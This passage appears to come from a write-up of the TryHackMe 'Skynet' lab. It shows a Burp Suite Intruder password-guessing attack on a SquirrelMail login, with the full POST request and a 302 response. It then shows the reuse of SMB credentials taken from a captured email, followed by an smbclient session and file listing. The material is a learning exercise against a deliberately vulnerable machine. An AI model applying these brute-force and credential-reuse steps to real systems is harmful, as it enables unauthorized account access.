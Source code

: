 ```
```
So, I set up burpsuite intruder to use multiple payloads against the ```secretkey=``` position of the POST request to the squirrelmail service. See the POST request to log in below. 
```
POST /squirrelmail/src/redirect.php HTTP/1.1
Host: [REDACTED]
Content-Length: 81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[REDACTED]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[REDACTED]/squirrelmail/src/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: squirrelmail_language=en_US; SQMSESSID=5mm2c9p7ak17sdfaohfiupk0m0
Connection: close

login_username=milesdyson&secretkey=§test§&js_autodetect_results=1&just_logged_in=1
```
I loaded in ```log1.txt``` as the payload in intruder and ran burpsuite. There were a total of 31 possible passwords in the ```log1.txt``` file. Burpsuite took some time to run against the target but I eventually found the password based on a 302 response from the service. With the password, I logged into the mail service as user ```milesdyson```. 
```
HTTP/1.1 302 Found
Date: Thu, 24 Feb 2022 18:47:51 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Sat, 1 Jan 2000 00:00:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
```
There were total of 3 emails within the user ```milesdyons'``` inbox. Two of them are from ```serenakogan```. One of the emails from her is in binary. The other appears to be song lyrics. The final email in ```milesdyson's``` inbox was from ```skynet@skynet``` and it provided smb credentials to use.
```
We have changed your smb password after system malfunction.
Password: [REDACTED]
```
I used the credentials to log into the ```milesdyson``` share that I saw earlier using smbmap. 
```
ajread@aj-ubuntu:~/TryHackMe$ smbclient -U milesdyson //[REDACTED]/milesdyson
Enter WORKGROUP\milesdyson's password: 
Try "help" to get a list of possible commands.
smb: \> 
```
There were a bunch of files within the share. But, the most interesting file was the ```important.txt``` file within the ```notes``` directory. 
```
smb: \> ls
  .                                   D        0  Tue Sep 17 05:05:47 2019
  ..                                  D        0  Tue Sep 17 23:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 05:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 05:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 05:05:14 2019
  notes                               D        0  Tue Sep 17 05:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 05:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 05:05:14 2019

		9204224 blocks of size 1024. 5831456 blocks available
```